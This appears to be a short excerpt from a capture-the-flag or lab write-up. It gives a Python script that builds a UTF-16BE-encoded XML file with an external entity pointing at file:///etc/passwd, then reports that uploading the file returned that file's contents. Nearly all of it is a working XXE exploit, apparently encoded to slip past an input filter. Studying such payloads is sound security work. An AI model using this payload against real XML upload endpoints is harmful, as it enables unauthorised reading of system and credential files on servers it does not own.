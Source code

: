 ```jsx
import codecs
import os

cwd = os.path.dirname(os.path.realpath(__file__))

# Define the XML content
xml_head = b'<?xml version="1.0" encoding="UTF-16BE"'

xml_payload = '''?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<pigeons>
  <pigeon>
    <name>&xxe;</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
    <website>https://en.wikipedia.org/wiki/Ice_pigeon</website>
  </pigeon>
</pigeons>'''

# Encode the XML content to UTF-16BE
encoded_xml = xml_payload.encode('utf-16be')

# Write the encoded XML to a file
with codecs.open(cwd + '/payload.xml', 'wb') as file:
    file.write(xml_head + encoded_xml)
```

Running the script and uploading it, now we get the `/etc/passwd` contents as seen below.
